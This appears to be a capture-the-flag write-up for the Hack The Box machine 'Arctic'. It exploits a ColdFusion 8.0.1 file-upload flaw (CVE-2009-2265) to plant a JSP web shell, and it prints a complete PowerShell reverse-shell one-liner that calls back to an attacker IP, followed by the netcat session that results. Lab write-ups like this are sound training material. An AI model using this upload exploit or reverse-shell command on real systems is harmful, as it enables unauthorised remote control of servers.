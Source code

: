## ColdFusion 8.0.1 Arbitrary File Upload - CVE-2009-2265

Exploit: [ColdFusion 8.0.1 Arbitrary File Upload - CVE-2009-2265](https://repo.theoremforge.com/pentesting/tools/-/raw/aac4c131a462c095ca1a13f453b25c63d7a738e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py)

Web shell: [cmdjsp.jsp](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp)

```java
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=GET ACTION='exploit.jsp'>
...
```

Upload the webshell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ python upload.py 10.10.10.11 8500 cmdjsp.jsp 
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

![Pasted image 20210421232355.png](../../zzz_res/attachments/Pasted_image_20210421232355.png)

Command to get the reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo nc -nlvp 443                                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.11] 49646

PS C:\ColdFusion8\runtime\bin> whoami
arctic\tolis
```

# Privilege Escalation

## Local enumeration
